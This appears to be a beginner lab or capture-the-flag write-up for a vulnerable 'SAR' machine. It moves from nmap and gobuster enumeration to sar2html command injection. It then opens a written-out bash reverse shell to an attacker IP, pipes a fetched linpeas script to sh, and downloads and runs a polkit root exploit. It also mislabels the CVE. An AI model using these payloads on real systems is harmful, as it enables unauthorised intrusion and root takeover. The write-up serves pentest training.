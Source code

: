 # SAR

## Introduction

This box is designed to help beginner pentester to get familiar with some pentesting concepts like shell reversing and privilege escalation.

## Information

### Access

### Key Processes

This machine hosts an apache web server, that has the sar2html tool.

## Writeup

After running the machine, the first thing we encounter is the ubuntu authentificator, and find that there is a user called love. 
<img src="assets/auth.png"><br>
But before starting the enumeration phase, we need to get the ip adress of the machine, and to do so we need to run the command netdiscover 
```
sudo netdiscover
```
<img src="assets/netdiscover.png"><br>
Now that we have the ip adress, we can run nmap 

## Enumeration

### Nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.66.153
```
<img src="assets/nmap.png"><br>

We can see that there is one port open (port:80:http), but after checking out its content on the browser it seems to be the apache default page.

<img src="assets/home_apache.png"><br>

### Directory bruteforcing

To check if there are other directories, I used gobuster to bruteforce any existing files or directories in the current directory.
```
gobuster -w ./wordslist2.txt -u 192.168.66.153
```
<img src="assets/gobuster.png"><br>
And we found that there is a robots txt file that pointed us to the right direction.
<img src="assets/robots.png"><br>

### Understanding the vulnerability
Sar2html is a tool that comes with most linux machines, and was found to be vulnerable in version 3.2.1: https://www.exploit-db.com/exploits/47204 . The attacker can manipulate the plot variable to inject command line code into the machine.
<img src="assets/page.png">

### Reverse shell
In order to work freely, I sent an http request with a reverse shell command using a <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp">payload</a>: 
```
;/bin/bash -c 'bash -i >& /dev/udp/192.168.66.191/4242 0>&1'
```
<img src="assets/postman.png"><br>
And used netcat to intercept the communication on my host machine
<img src="assets/nc.png"><br>
The input was weird, as I had to write evert letter in each line so I just opened a subshell and it worked just fine.

Now that we have access to the machine, first thing we're going to try is running linpeas to look for any vulnerability that we can exploit.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

And we've found a polkit vulnerability (CVE-2021-4043)!
<img src="assets/vuln.png"><br>

All we have to do now is to get an exploit for it: 
```
curl https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py --output exploit.py && python3 exploit.py
```

And we finally have root access! 

<img src="assets/root.png"><br>

